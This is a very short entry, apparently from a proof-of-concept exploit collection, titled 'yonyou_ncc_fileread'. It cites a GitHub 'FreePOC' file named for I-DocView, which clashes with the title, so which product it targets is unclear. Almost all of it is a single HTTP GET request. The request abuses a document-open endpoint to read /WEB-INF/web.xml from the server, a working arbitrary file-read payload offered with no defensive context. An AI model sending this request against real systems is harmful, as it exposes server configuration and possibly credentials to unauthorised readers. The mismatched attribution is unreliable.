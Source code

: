 # yonyou_ncc_fileread

from: https://github.com/Vme18000yuan/FreePOC/blob/master/poc/pocsuite/I-DocView-readfile.py

```
GET /portal/docctr/open/word.docx?disp=/WEB-INF/web.xml HTTP/1.1
```
